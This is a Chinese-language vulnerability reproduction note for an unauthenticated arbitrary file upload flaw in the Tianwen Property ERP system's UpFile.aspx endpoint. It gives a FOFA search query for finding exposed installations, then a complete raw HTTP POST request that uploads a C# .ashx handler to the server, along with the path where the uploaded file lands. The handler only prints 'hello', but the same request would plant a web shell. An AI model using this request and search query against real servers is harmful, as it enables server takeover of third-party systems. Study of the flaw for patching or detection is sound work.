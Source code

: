 # 天问物业ERP系统UpFile.aspx前台任意文件上传漏洞

# 一、漏洞简介
成都天问互联科技有限公司以软件开发和技术服务为基础，建立物业ERP应用系统，向物管公司提供旨在降低成本、保障品质、提升效能为目标的智慧物管整体解决方案。天问物业ERP系统UpFile.aspx存在文件上传漏洞，攻击者可以利用漏洞上传恶意文件获取服务器权限。

# 二、影响版本
+ 天问物业ERP

# 三、资产测绘
+ fofa`body="国家版权局软著登字第1205328号"`
+ 登录页面

![1693186922915-1f51f82b-7763-45ed-a0a0-77d42bbe6c25.png](./img/_FtyxihXp3rud9CH/1693186922915-1f51f82b-7763-45ed-a0a0-77d42bbe6c25-373502.png)

# 四、漏洞复现
```plain
POST /HM/M_Main/UpLoad/UpFile.aspx HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_381
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 487
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="UpFileData"; filename="1.ashx"

<% @ webhandler language="C#" class="AverageHandler" %> 
using System; 
using System.Web; 

public class AverageHandler : IHttpHandler 
{ 
    public bool IsReusable 
    { 
        get {
             return true; 
            } 
        } 
        public void ProcessRequest(HttpContext ctx) 
        { 
            ctx.Response.Write("hello"); 
        } 
    }
--00content0boundary00--

```

![1693187626139-0df6a426-9972-4c38-a24c-9171d529de33.png](./img/_FtyxihXp3rud9CH/1693187626139-0df6a426-9972-4c38-a24c-9171d529de33-838752.png)

上传文件位置

```plain
http://xx.xx.xx.xx/UpLoadFile//Sys_HeaderImage/2023/08/493216795627.ashx
```

![1693187670717-7b037f1f-9a4b-4c70-928a-a580716b4480.png](./img/_FtyxihXp3rud9CH/1693187670717-7b037f1f-9a4b-4c70-928a-a580716b4480-501028.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tw7n0fcma3hvp61o>